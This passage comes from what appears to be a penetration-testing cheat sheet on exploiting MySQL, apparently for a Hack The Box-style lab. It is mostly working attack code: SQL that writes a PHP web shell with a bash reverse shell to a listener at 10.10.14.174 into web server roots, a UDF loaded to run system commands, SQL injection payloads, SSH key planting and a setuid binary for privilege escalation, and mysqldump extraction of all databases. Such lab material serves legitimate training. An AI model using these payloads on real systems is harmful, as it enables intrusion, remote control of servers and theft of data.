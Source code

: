 ```sql
-- For XAMPP
SELECT "<?php exec('/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.174/4444 0>&1\''); ?>" INTO OUTFILE 'C:/xampp/htdocs/shell.php';

-- For IIS
SELECT "<?php exec('/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.174/4444 0>&1\''); ?>" INTO OUTFILE 'C:/inetpub/wwwroot/shell.php';

-- For WAMP
SELECT "<?php exec('/bin/bash -c \'bash -i >& /dev/tcp/10.10.14.174/4444 0>&1\''); ?>" INTO OUTFILE 'C:/wamp/www/shell.php';
```

#### User-Defined Functions (UDFs)

If the MySQL user has sufficient privileges, UDFs can be loaded to execute system commands:

```sql
-- Create a function that executes system commands
CREATE FUNCTION sys_exec RETURNS INTEGER SONAME 'lib_mysqludf_sys.so';

-- Use the function
SELECT sys_exec('id > /tmp/output.txt');
```

#### SQL Injection

When MySQL is used by web applications, SQL injection vulnerabilities may exist:

```
# Example injection payload
' OR 1=1 -- -
' UNION SELECT 1,2,database(),user() -- -
' UNION SELECT 1,2,table_name,4 FROM information_schema.tables WHERE table_schema=database() -- -
```

### Privilege Escalation

#### Exploiting MySQL for System Access

If MySQL is running as root or a privileged user, it can be leveraged for privilege escalation:

```sql
-- Write SSH key to authorized_keys file
SELECT "ssh-rsa AAAA..." INTO OUTFILE '/home/user/.ssh/authorized_keys';

-- Create a setuid binary
SELECT 0x7f454c4602... INTO DUMPFILE '/tmp/suid';
```

#### Abusing MySQL Administration Tools

```bash
# Using mysqldump to extract data
mysqldump -u username -p'password' -h 10.129.20.13 --all-databases > dump.sql

# Extracting specific tables
mysqldump -u username -p'password' -h 10.129.20.13 htbusers users > users_dump.sql
```
